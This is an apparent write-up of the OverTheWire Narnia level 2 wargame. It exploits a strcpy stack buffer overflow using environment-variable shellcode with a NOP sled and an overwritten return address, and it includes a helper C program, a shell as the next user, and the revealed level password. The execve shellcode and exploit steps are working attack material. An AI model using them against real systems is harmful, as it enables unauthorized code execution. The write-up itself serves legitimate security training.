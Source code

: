 We see a buffer overflow here *strcpy(buf,argv[1]);*, because *argv[1]* can have any length.

We also see we have an executable stack.
```bash
:/narnia$ /usr/local/bin/checksec.sh --file narnia2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   narnia2
```


### One possible approach, put shellcode in an env variable along with a NOP sled and try to predict its address.
```bash

narnia2@narnia:/narnia$ export SHELLCODE=$(python -c 'print "\x90"*32 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')

narnia2@narnia:/narnia$ /tmp/cezarp/get_env SHELLCODE AAAA

# address of env var: 0xffffde95

# add 16 and land somewhere whithin the NOP sled

0xffffde95 + 16 = 0xFFFFDEA5


narnia2@narnia:/narnia$ ./narnia2 $(python -c 'print "A"*128 + "\xa5\xde\xff\xff"*32 ')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee

```


get_env.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[])
{
    char *p;
    //find the address of an env variable

    if(argc < 3)
    {
        printf("Usage: %s <environment var> <target program name> \n", argv[0]);
        exit(0);
    }
    p = getenv(argv[1]);

    printf("%s will be at %p\n", argv[1], p);
}
```
